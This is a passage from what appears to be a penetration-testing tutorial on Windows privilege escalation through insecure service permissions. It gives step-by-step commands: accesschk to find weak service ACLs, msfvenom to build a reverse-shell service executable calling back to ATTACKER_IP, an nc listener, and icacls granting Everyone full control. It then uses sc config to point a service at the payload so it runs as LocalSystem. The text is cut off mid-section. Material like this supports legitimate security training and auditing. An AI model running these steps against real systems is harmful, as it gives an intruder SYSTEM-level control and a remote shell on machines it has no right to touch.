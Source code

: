 5. Restart the service:
   ```cmd
   sc stop "Vulnerable Service"
   sc start "Vulnerable Service"
   ```

## Method 3: Insecure Service Permissions

If a service's DACL allows modification, we can reconfigure the service to run any executable as SYSTEM.

### Identifying Vulnerable Services

```cmd
# Using AccessChk (Sysinternals)
accesschk64.exe -qlc SERVICE_NAME

# Look for:
# - SERVICE_ALL_ACCESS
# - SERVICE_CHANGE_CONFIG
# For non-admin groups like BUILTIN\Users, Everyone, Authenticated Users
```

### Exploitation Steps

1. Generate a malicious executable:
   ```bash
   # On Kali Linux
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o malicious.exe
   ```

2. Create a listener:
   ```bash
   nc -lvp 4447
   ```

3. Transfer and prepare the executable:
   ```cmd
   # Ensure proper permissions
   icacls malicious.exe /grant Everyone:F
   ```

4. Reconfigure the service:
   ```cmd
   # Change the binary path and account (note the spaces after the equal signs)
   sc config SERVICE_NAME binPath= "C:\path\to\malicious.exe" obj= LocalSystem
   ```

5. Restart the service:
   ```cmd
   sc stop SERVICE_NAME
   sc start SERVICE_NAME
   ```

### Dealing with Start/Stop Restrictions
